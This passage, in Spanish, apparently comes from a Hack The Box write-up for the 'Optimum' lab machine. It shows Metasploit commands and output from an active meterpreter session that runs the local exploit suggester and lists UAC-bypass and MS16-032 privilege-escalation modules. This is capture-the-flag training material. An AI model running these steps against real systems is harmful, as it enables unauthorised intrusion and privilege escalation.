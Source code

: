 <h2 id="PostEnum2">Enumeración de Máquina con Metasploit Framework</h2>

Como ya tenemos una sesión activa, vamos a utilizar el **módulo Suggester**, para que busque que Exploits pueden ser utilizados en la máquina con el fin de escalar privilegios.

Vamos por pasos:

* Buscando y usando **módulo Suggester**:

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > search suggester
*
Matching Modules
================
   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester
*
Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester
*
msf6 exploit(windows/http/rejetto_hfs_exec) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) >
```

* Configurando **módulo Suggester**:
```bash
msf6 post(multi/recon/local_exploit_suggester) > sessions
*
Active sessions
===============
  Id  Name  Type                     Information               Connection
  --  ----  ----                     -----------               ----------
  1         meterpreter x86/windows  OPTIMUM\kostas @ OPTIMUM  Tu_IP:4444 -> 10.10.10.8:49162 (10.10.10.8)
*
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
```

* Ejecutando módulo:

```bash
msf6 post(multi/recon/local_exploit_suggester) > exploit
.
[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 181 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.8 - Valid modules for session 1:
============================
 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
```
